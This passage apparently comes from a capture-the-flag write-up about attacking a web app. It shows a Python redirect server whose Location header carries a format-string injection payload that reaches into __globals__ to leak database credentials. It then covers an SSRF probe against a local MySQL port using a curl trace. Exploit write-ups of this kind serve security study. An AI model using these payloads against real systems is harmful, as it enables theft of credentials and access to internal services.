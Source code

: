 Since the variable is imported from the `config.py` file, we'll utilise `class inheritance` to access the variable through the global namespace.

```python
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer

class MyServer(TCPServer):
	allow_reuse_address = True

class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest.__init__.__globals__[db_conf]}')
		return self.end_headers()

MyServer(('', 1337), HTTP_RequestHandler).serve_forever()
```

<p align='center'>  
  <img src='assets/frame_database_credentials_chrome_mac_light.png'>
</p>

# [__SSRF Connoeisur 🥂__]()

The `is_html()` function is also prone to SSRF, if we were to target the MySQL instance, the MySQL TCP application layer wouldn't be able to parse the bloated ASCII data from the HTTP request we sent.

```
root@deadbeef:/# curl --trace-ascii /dev/stdout -H 'Content-Type: text/plain' --data 'SELECT SLEEP(1);' localhost:3306/ --max-time 1 --output -
== Info:   Trying 127.0.0.1...
== Info: TCP_NODELAY set
== Info: Connected to localhost (127.0.0.1) port 3306 (#0)
=> Send header, 125 bytes (0x7d)
0000: POST / HTTP/1.1
0011: Host: localhost:3306
0027: User-Agent: curl/7.58.0
0040: Accept: */*
004d: Content-Type: text/plain
0067: Content-Length: 16
007b:
```